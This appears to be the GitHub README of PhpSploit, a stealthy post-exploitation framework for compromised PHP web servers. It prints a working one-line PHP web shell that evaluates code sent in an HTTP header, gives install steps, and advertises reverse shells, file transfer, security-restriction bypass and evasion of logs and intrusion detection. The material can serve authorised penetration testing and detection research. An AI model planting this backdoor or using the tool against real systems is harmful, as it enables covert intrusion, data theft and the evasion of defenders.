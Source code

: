 ### PhpSploit: _Furtive post-exploitation framework_




![phpsploit demo](data/img/phpsploit-demo.png)

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Overview

The obfuscated communication is accomplished using HTTP headers under
standard client requests and web server's relative responses, tunneled
through a tiny **polymorphic backdoor**:

```php
<?php @eval($_SERVER['HTTP_PHPSPL01T']); ?>
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Quick Start

```sh
git clone https://github.com/alex14324/phpsploit
cd phpsploit/
pip3 install -r requirements.txt
./phpsploit --interactive --eval "help help"
```

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Features

-   **Efficient**: More than 20 plugins to automate post-exploitation tasks
    -   Run commands and browse filesystem, bypassing PHP security restrictions
    -   Upload/Download files between client and target
    -   Edit remote files through local text editor
    -   Run SQL console on target system
    -   Spawn reverse TCP shells

-   **Stealth**: The framework is made by paranoids, for paranoids
    -   Nearly invisible by log analysis and NIDS signature detection
    -   Safe-mode and common _PHP security restrictions bypass_
    -   Communications are hidden in HTTP Headers
    -   Loaded payloads are obfuscated to _bypass NIDS_
    -   http/https/socks4/socks5 **Proxy support**

-   **Convenient**: A robust interface with many crucial features
    -   Detailed help for any command or option (type `help`)
    -   _Cross-platform_ on both the client and the server.
    -   Powerful interface with completion and multi-command support
    -   Session saving/loading feature & persistent history
    -   Multi-request support for large payloads (such as uploads)
    -   Provides a powerful, highly configurable settings engine
    -   Each setting, such as user-agent has a _polymorphic mode_
    -   Customisable environment variables for plugin interaction
    -   Provides a complete plugin development API

* * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * * *

#### Supported platforms (as attacker):

-   GNU/Linux
-   Mac OS X

#### Supported platforms (as target):

-   GNU/Linux
-   BSD Like
-   Mac OS X
-   Windows NT


